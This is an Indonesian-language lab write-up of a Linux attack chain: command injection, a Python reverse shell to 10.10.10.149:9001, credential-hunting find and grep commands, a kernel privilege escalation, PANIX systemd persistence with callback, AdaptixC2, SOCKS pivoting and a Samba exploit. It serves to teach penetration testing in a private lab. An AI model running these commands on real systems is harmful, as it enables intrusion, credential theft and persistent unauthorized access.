# A Journey Through a Linux Attack Chain (Lab Practice)

[🇬🇧 Read in English](A-Journey-Through-a-Linux-Attack-Chain-(Lab-Practice)-en.md)

Ini adalah rangkaian praktik yang saya buat di lab pribadi. Tujuannya untuk melatih pattern recognition dan memahami flow bagaimana satu akses awal bisa berkembang menjadi rantai serangan yang utuh. Beberapa bagian lab (Copy.Fail 2026 dan Samba CVE 2026) sengaja saya siapkan rentan untuk keperluan uji coba.

**Topologi lab:**

```text
+----------------+          +----------------------+          +----------------+
| Kali Linux     |          | Ubuntu Server01      |          | Debian Server02|
| 10.10.10.149   |--------->| Pivot Host           |--------->| 192.168.15.2   |
| Attacker       |          | Mutillidae II        |          | Samba 4.22.9   |
| AdaptixC2      |          | ens33 : 10.10.10.2   |          | Internal Host  |
| nc / Proxychains|         | ens37 : 192.168.15.3 |          |                |
+----------------+          +----------------------+          +----------------+
        Attacker Network               Internal Network
          10.10.10.0/24                 192.168.15.0/24
```

**Alur keseluruhan:**

```text
Command Injection
        │
        ▼
Reverse Shell (www-data)
        │
        ▼
Basic Enumeration
        │
        ▼
File System Exploration
        │
        ▼
Privilege Enumeration
        │
        ▼
Privilege Escalation (Copy.Fail → root)
        │
        ▼
Persistence (PANIX)
        │
        ▼
Foothold and Command & Control (Adaptix C2)
        │
        ▼
Pivoting (SOCKS5 Tunnel)
        │
        ▼
Lateral Movement (Samba CVE-2026-4480)
```

---

Saya mulai dari Command Injection di Mutillidae II. Setelah berhasil mendapatkan Command Execution, saya buat payload reverse shell pakai One-Lin3r.



Saya pilih `linux/python/socket_reverse` dengan listener `10.10.10.149:9001`.



```python
python3 -c 'import os,pty,socket;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.149",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close();'
```

Saya jalankan listener:

```bash
nc -lvnp 9001
```

Payload saya sisipkan ke parameter yang rentan.


Yang terjadi:


Shell interaktif sebagai `www-data` berhasil masuk.

---

Shell awal masih terbatas. Saya atur `TERM` dulu.



Lalu saya upgrade ke interactive TTY.



```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-256color
# Ctrl+Z → stty raw -echo && fg → reset → stty rows ... columns ...
```

Setelah itu saya kumpulkan informasi dasar.


```bash
whoami
id
groups
```

User yang dipakai adalah `www-data`.



```bash
hostname
uname -a
cat /etc/os-release
```

Sistem Ubuntu 24.04.4 LTS, kernel 6.8, x86_64.


```bash
pwd
ls -la
```

Posisi di direktori aplikasi Mutillidae.



```bash
ip addr
ip route
```



```bash
ps aux
```

Service yang terlihat: Apache, Nginx, MariaDB, OpenSSH, Cron.

---

Saya lanjut eksplorasi file system.



```bash
pwd
ls -lah
```



```bash
find "$(pwd)" -mindepth 1 -maxdepth 2 -type d
```


```bash
printf '%s\n' "$PWD"/**/* 2>/dev/null | grep -Ei 'login|auth|register|upload|admin|config|database|db|user|account|password|secret|key|token|credential|backup|\.env|\.sql|\.bak|\.old|\.zip'
```



```bash
find . -type f \( -iname "*.env" -o -iname "*.ini" -o -iname "*.conf" -o -iname "*.cnf" -o -iname "*.xml" -o -iname "*.sql" -o -iname "*.bak" -o -iname "*.old" -o -iname "*.txt" -o -iname "*.log" -o -iname "*.yml" -o -iname "*.yaml" \) -exec grep -HinE 'user(name)?|pass(word)?|host(name)?|database|db|token|secret|api[_-]?key|credential' {} + 2>/dev/null
```


```bash
find . -maxdepth 2 -printf "%M %u:%g %p\n"
```

---

Saya lanjut ke privilege enumeration.



```bash
id
```


```bash
sudo -l
```


```bash
find / -perm -4000 -type f 2>/dev/null
```


```bash
getcap -r / 2>/dev/null
```


```bash
cat /etc/crontab
ls -la /etc/cron.*
```


```bash
systemctl list-units --type=service
```


```bash
env
```



```bash
find / -writable -type d 2>/dev/null
```



```bash
ls -lah /home
```


```bash
uname -r
```

---

Dari versi kernel yang ditemukan, saya verifikasi terhadap Copy.Fail (CVE-2026-31431) yang memang saya siapkan di lab.


```bash
uname -r
```



```bash
python3 test.py
```

Setelah precondition terpenuhi, saya jalankan exploit.


```bash
python3 exploit.py
```

Hak akses naik dari `www-data` menjadi `root`.

---

Dengan akses root, saya buat persistence pakai PANIX modul systemd.generator.


```bash
curl -sL https://github.com/Aegrah/PANIX/releases/download/panix-v2.1.0/panix.sh -o panix.sh
chmod +x panix.sh
```


```bash
bash panix.sh --generator --ip 10.10.10.149 --port 9001
```

Saya reboot target.


Setelah reboot, reverse shell kembali muncul otomatis.



---

Akses yang sudah stabil saya ganti menjadi session C2 pakai Adaptix Framework.


Agent dijalankan dan langsung callback.





```text
Callback Address
10.10.10.149:9001
```


Session interaktif tersedia melalui AdaptixC2.

---

Host Ubuntu punya dua interface. Dari sini saya bangun SOCKS5 tunnel untuk menjangkau jaringan internal.










Traffic saya arahkan lewat Proxychains.


Host internal `192.168.15.2` ketemu dengan service SSH, Samba, dan CUPS.

---

Service Samba 4.22.9 di Debian Server02 saya validasi terhadap CVE-2026-4480 (lab Samba yang juga saya siapkan).





Koneksi saya teruskan lewat pivot host (Proxychains + SOCAT relay). Shell berhasil masuk sebagai user `nobody` dari Debian Server02.

---

Semoga write-up ini bisa bermanfaat buat teman-teman yang sedang belajar dan berkembang di dunia hacking, khususnya yang ingin mencoba memahami Linux dan security lewat praktik legal. Semoga juga bisa menjadi referensi atau bahan belajar untuk eksplorasi selanjutnya.

---

### Referensi

<details>
<summary><strong>Lab Pribadi</strong></summary>

- Copy.Fail Lab (CVE-2026-31431) — https://github.com/iMoon07/OWASP-Lab-Toolkit/tree/main/CVE-2026-31431  
- Samba CVE-2026-4480 Lab — https://github.com/iMoon07/OWASP-Lab-Toolkit/tree/main/CVE-2026-4480  

</details>

<details>
<summary><strong>Tool & Framework</strong></summary>

- One-Lin3r — https://github.com/D4Vinci/One-Lin3r  
- PANIX — https://github.com/Aegrah/PANIX  
- Adaptix Framework — https://adaptix-framework.gitbook.io/adaptix-framework/  
- AdaptixC2 — https://github.com/Adaptix-Framework/AdaptixC2  
- Proxychains-ng — https://github.com/rofl0r/proxychains-ng  

</details>

<details>
<summary><strong>Cheat Sheet & Dokumentasi</strong></summary>

- PayloadsAllTheThings – Reverse Shell — https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/  
- PentestMonkey – Reverse Shell Cheat Sheet — https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet/  
- GTFOBins — https://gtfobins.github.io/  
- Ropnop – Upgrading Simple Shells to Fully Interactive TTY — https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/  
- GNU Coreutils Manual — https://www.gnu.org/software/coreutils/manual/  
- GNU Findutils Manual — https://www.gnu.org/software/findutils/manual/  
- systemd.generator Manual — https://man7.org/linux/man-pages/man7/systemd.generator.7.html  
- Linux Manual Pages — https://man7.org/linux/man-pages/  
- Nmap Documentation — https://nmap.org/docs.html  
- Samba Documentation — https://www.samba.org/samba/docs/  

</details>

<details>
<summary><strong>Vulnerability & Advisory</strong></summary>

- Copy.Fail Research — https://copy.fail/  
- CERT/CC VU#260001 — https://kb.cert.org/vuls/id/260001  
- Samba Security Advisory – CVE-2026-4480 — https://www.samba.org/samba/security/CVE-2026-4480.html  
- NVD CVE-2026-4480 — https://nvd.nist.gov/vuln/detail/CVE-2026-4480  

</details>

<details>
<summary><strong>MITRE ATT&CK</strong></summary>

- T1059 – Command and Scripting Interpreter  
- T1082 – System Information Discovery  
- T1016 – System Network Configuration Discovery  
- T1057 – Process Discovery  
- T1083 – File and Directory Discovery  
- T1068 – Exploitation for Privilege Escalation  
- T1543.002 – Systemd Service  
- T1547 – Boot or Logon Autostart Execution  
- T1090 – Proxy  
- T1046 – Network Service Discovery  
- TA0008 – Lateral Movement  
- TA0011 – Command and Control  
- T1219 – Remote Access Software  

</details>